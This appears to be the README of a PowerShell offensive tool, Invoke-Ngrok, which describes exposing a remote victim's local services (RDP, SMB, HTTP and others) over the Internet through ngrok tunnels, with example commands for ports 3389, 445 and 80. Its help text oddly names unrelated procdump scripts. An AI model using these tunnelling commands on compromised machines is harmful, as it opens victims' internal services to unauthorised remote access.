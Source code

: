 # INVOKE-NGROK 
 
Expose local port of a remote victim over Internet. 
Use it to exploit or access local service remotely without public IP (RDP, SQL, SSH, SMB, FTP ...)

Help:
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters:
	example:

	Invoke-Ngrok -auth xxxxxxx -protocol tcp -port 3389  #expose RDP session over Internet 
	Invoke-Ngrok -auth xxxxxxx -protocol tcp -port 445   #expose SMB port over Internet
	Invoke-Ngrok -auth xxxxxxx -protocol http -port 80   #expose HTTP port over Internet
	
Author: @ThebenyGreen
  - EyesOpenSecurity

Credits -  inconshreveable - <alan@ngrok.com> 
